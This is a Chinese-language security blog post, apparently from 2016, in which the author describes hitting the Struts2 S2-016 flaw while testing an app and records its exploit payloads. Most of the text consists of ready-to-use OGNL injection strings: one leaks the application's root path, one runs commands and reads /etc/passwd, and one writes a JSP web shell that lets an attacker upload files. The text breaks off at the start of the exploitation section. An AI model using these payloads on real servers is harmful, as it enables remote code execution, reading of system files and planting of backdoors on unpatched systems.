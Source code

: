 ```yaml
---
layout: post
title: Struts2漏洞之S2-016偶遇
date: 2016-11-03 21:53:21 +0800
categories: Web安全
tag: Struts2 Sec
---
```


* content
{:toc}

{%raw%}

## 0×00 前言  

今天测试APP的时候抓到一个包发现是.action后缀结尾的，下意识想到Struts2漏洞。顺手找同事拷贝个Struts2漏洞扫描工具，没想到在验证第一个漏洞编号S2-016的时候就中了。欣喜之余打开Google搜搜该漏洞的黑历史，意想不到这个漏洞竟然是13年7月的事儿(原谅笔者13年的时候还未涉及安全)，事隔三年还让我遇到，不知道是该庆幸呢还是该庆幸呢？从资料来看该漏洞的影响程度不减今年连发的s2-32/33/37。同时真对某些企业对安全的态度无力吐槽，这种影响重大的安全事件，都没有patch什么的。闲话不扯淡，既然有幸遇到，而且这种漏洞还是可遇不可求，那就搜集资料直接EXP走起。  

## 0×01 Payload  

漏洞详情分析网络上有一大堆资料，就不再赘述。这里主要记录漏洞的Payload和EXP，对这种在真实环境不可多得的漏洞做个记录。  

### 1.爆应用根目录  

```
?redirect%3A%24%7B%23req%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletRequest%27%29%2C%23a%3D%23req.getSession%28%29%2C%23b%3D%23a.getServletContext%28%29%2C%23c%3D%23b.getRealPath%28%22%2F%22%29%2C%23matt%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29%2C%23matt.getWriter%28%29.println%28%23c%29%2C%23matt.getWriter%28%29.flush%28%29%2C%23matt.getWriter%28%29.close%28%29%7D
```

### 2.命令执行  

```
?redirect:${%23a%3d(new java.lang.ProcessBuilder(new java.lang.String[]{'cat','/etc/passwd'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew java.io.InputStreamReader(%23b),%23d%3dnew java.io.BufferedReader(%23c),%23e%3dnew char[50000],%23d.read(%23e),%23matt%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23matt.getWriter().println(%23e),%23matt.getWriter().flush(),%23matt.getWriter().close()}
```

### 3.GET SHELL<span id="jump">  

```
?redirect:${%23req%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),
 %23p%3d(%23req.getRealPath(%22/%22)%2b%22css3.jsp%22).replaceAll("\\\\", "/"),
new+java.io.BufferedWriter(new+java.io.FileWriter(%23p)).append(%23req.getParameter(%22c%22)).close()
 }&c=%3c%25if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b%25%3e
```

## 0×02 EXP   

这里主要记录使用payload对该漏洞的利用，理论与实践结合，更加深刻的认识该漏洞的危害及严重程度。  

### 1.爆应用路径   

这个没什么可说的，直接上大神写好的exp，效果如下图：  